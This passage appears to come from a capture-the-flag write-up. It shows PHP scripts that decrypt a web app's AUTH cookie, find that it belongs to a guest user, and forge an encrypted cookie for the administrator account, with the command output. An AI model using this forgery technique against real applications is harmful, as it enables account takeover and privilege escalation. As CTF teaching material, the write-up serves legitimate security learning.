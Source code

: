 So the `AUTH` cookie is a json blob with `username` and `date` keys. This blob is then encrypted via some encryption function. Is there also a decrypt function somewhere?

{% highlight php %}
{% raw %}
$ ag -C8 decrypt
db.php

<?php 
function get_username() {
  if(!isset($_COOKIE['AUTH'])) {
    return;
  }

  // Decrypt function in use
  $auth = json_decode(decrypt(pack("H*",$_COOKIE['AUTH'])), true);

  return $auth['username'];
}
?>
{% endraw %}
{% endhighlight %}

Just to make confirm our hypothesis, let's try to decrypt our current `AUTH` cookie.


{% highlight php %}
<?php
require_once('crypto.php');

// $auth = json_decode(decrypt(pack("H*", $a)), true);
$a = "82532b2136348aaa1fa7dd2243da1cc9fb13037c49259e5ed70768d4e9baa1c80b97fee8bca72880fd78bf7bc49a0853b14348637bec";
print decrypt(pack("H*", $a));
?>
{% endhighlight %}

<figure class="highlight"><pre><code class="language-java" data-lang="java">$ php unpack-auth.php 
{"username":"guest","date":"2016-12-27T05:43:09+0000"}
</code></pre></figure>

Now that we know our `AUTH` cookie is set for the `guest` user, let's try to make a new cookie for the `administrator` user that we know exists from our earlier testing.

{% highlight php %}
{% raw %}
<?php
require_once('crypto.php');

$b = '{"username":"administrator","date":"2016-12-27T05:43:09+0000"}';
print bin2hex(encrypt($b));
?>
{% endraw %}
{% endhighlight %}

<figure class="highlight"><pre><code class="language-java" data-lang="java">$ php repack-auth.php 
82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d86e573b965cc9d6548b4494c6063a10a63b71976884152
</code></pre></figure>
